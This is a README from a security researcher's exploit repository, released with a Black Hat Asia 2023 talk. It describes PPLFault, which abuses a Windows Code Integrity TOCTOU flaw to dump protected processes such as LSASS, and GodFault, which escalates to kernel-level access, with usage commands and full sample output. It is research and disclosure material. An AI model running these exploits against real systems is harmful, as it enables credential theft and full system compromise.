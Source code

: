 # PPLFault

By [Gabriel Landau](https://twitter.com/GabrielLandau) at [Elastic Security](https://www.elastic.co/security-labs/).

From [PPLdump Is Dead. Long Live PPLdump!](https://www.blackhat.com/asia-23/briefings/schedule/#ppldump-is-dead-long-live-ppldump-31052) presented at [Black Hat Asia 2023](https://www.blackhat.com/asia-23).

## PPLFault

Exploits a TOCTOU in Windows Code Integrity to achieve arbitrary code execution as WinTcb-Light then dump a specified process.  For more details on the exploit, see my slides and/or talk.

### Example Output

```
PS C:\Users\user\Desktop> cmd /c ver

Microsoft Windows [Version 10.0.25346.1001]
PS C:\Users\user\Desktop> tasklist | findstr lsass
lsass.exe                      992 Services                   0     76,620 K
PS C:\Users\user\Desktop> (Get-NtProcess -Access QueryLimitedInformation -Pid 992).Protection

Type           Signer
----           ------
ProtectedLight Lsa


PS C:\Users\user\Desktop> dir *.dmp
PS C:\Users\user\Desktop> .\PPLFault.exe -v 992 lsass.dmp
 [+] No cleanup necessary.  Backup does not exist.
 [+] GetShellcode: 528 bytes of shellcode written over DLL entrypoint
 [+] Benign: C:\Windows\System32\EventAggregation.dll.bak
 [+] Payload: C:\PPLFaultTemp\PPLFaultPayload.dll
 [+] Placeholder: C:\PPLFaultTemp\EventAggregationPH.dll
 [+] Acquired exclusive oplock to file: C:\Windows\System32\devobj.dll
 [+] Ready.  Spawning WinTcb.
 [+] SpawnPPL: Waiting for child process to finish.
 [+] FetchDataCallback called.
 [+] Hydrating 90112 bytes at offset 0
 [+] Switching to payload
 [+] Emptying system working set
 [+] Working set purged
 [+] Give the memory manager a moment to think
 [+] Hydrating 90112 PAYLOAD bytes at offset 0
 [+] Dump saved to: lsass.dmp
 [+] Dump is 74.9 MB
 [+] Operation took 937 ms
PS C:\Users\user\Desktop> dir *.dmp


    Directory: C:\Users\user\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          5/1/2023  11:18 AM       78581973 lsass.dmp
```

## GodFault

Exploits the same TOCTOU as PPLFault.  However instead of dumping a process, it migrates to CSRSS and exploits a vulnerability in `win32k!NtUserHardErrorControlCall` from [ANGRYORCHARD](https://github.com/gabriellandau/ANGRYORCHARD/blob/0a4720f7e07e86a9ac2783411b81efac14938e26/Exploit.c#L69-L81) to decrement `KTHREAD.PreviousMode` from `UserMode` (1) to `KernelMode` (0).  It proves "God Mode" access by opening `\Device\PhysicalMemory`, normally inaccessible from `UserMode`, as `SECTION_ALL_ACCESS`.

### Example Output

```
C:\Users\user\Desktop>GodFault.exe -v
 [?] Server does not appear to be running.  Attempting to install it...
 [+] No cleanup necessary.  Backup does not exist.
 [+] GetShellcode: 2304 bytes of shellcode written over DLL entrypoint
 [+] CSRSS PID is 772
 [+] Benign: C:\Windows\System32\EventAggregation.dll.bak
 [+] Payload: C:\GodFaultTemp\GodFaultPayload.dll
 [+] Placeholder: C:\GodFaultTemp\EventAggregationPH.dll
 [+] Acquired exclusive oplock to file: C:\Windows\System32\devobj.dll
 [+] Testing initial ability to acquire PROCESS_ALL_ACCESS to System: Failure
 [+] Ready.  Spawning WinTcb.
 [+] SpawnPPL: Waiting for child process to finish.
 [+] FetchDataCallback called.
 [+] Hydrating 90112 bytes at offset 0
 [+] Switching to payload
 [+] Emptying system working set
 [+] Working set purged
 [+] Give the memory manager a moment to think
 [+] Hydrating 90112 PAYLOAD bytes at offset 0
 [+] Thread 6248 (KTHREAD FFFFA283B0A62080) has been blessed
 [+] Testing post-exploit ability to acquire PROCESS_ALL_ACCESS to System: Success
 [+] Opened \Device\PhysicalMemory.  Handle is 0x1b4
 [+] Opened System process as PROCESS_ALL_ACCESS.  Handle is 0x1c0
 [+] Press any key to continue...
 [+] No cleanup necessary.  Backup does not exist.
```

## Python
PoC that achieves arbitrary code execution as WinTcb-Light without the CloudFilter API.  See [python/README.md](python/README.md).

## Tested Platforms

|  | Windows 11 22H2 22621.1555 (April 2023) | Windows 11 Insider Canary 25346.1001 (April 2023) |
| - | - | - |
| PPLFault | ✔️ | ✔️ |
| GodFault | ✔️ | ❌ Insider PreviousMode mitigation [bugchecks](https://twitter.com/GabrielLandau/status/1597001955909697536?s=20) |

# License

Silhouette is covered by the [ELv2 license](LICENSE.txt).  It uses [phnt](https://github.com/winsiderss/systeminformer/tree/25846070780183848dc8d8f335a54fa6e636e281/phnt) from SystemInformer under the [MIT license](phnt/LICENSE.txt).

# Credits
Inspired by [PPLdump](https://github.com/itm4n/PPLdump) by [Clément Labro](https://infosec.exchange/@itm4n), which Microsoft [patched](https://itm4n.github.io/the-end-of-ppldump/) in July 2022.

[ANGRYORCHARD](https://github.com/gabriellandau/ANGRYORCHARD) was created by [Austin Hudson](https://twitter.com/ilove2pwn_), who released it when Microsoft patched PPLdump.
